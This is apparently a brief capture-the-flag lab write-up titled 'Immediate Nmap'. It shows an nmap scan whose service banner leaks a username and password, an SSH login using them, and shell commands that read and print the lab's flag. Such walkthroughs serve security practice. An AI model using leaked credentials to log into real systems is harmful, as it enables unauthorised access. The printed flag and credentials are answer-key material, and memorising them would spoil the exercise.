


# Immediate Nmap

1. Scan: ```nmap -sC <MACHINE_IP>```

   

   * I have got an username and password. (ubuntu and Dafdas!!/str0ng)
    ```
    31337/tcp open  Elite?
    | fingerprint-strings: 
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
    |     In case I forget - user:pass
    |_    ubuntu:Dafdas!!/str0ng
    ```

2. Try to ssh: ```ssh ubuntu@IP_Address```
   
   

   ```   
    $ whoami 
    ubuntu
    $ ls
    $ cd /
    $ cd home
    $ ls
    ubuntu  user
    $ cd user 
    $ ls
    flag.txt
    $ cat flag.txt
    flag{251f309497a18888dde5222761ea88e4}$ 
    ```

    After ssh i cannot find in ubuntu so go to home directory and cd to user and get the flag.

---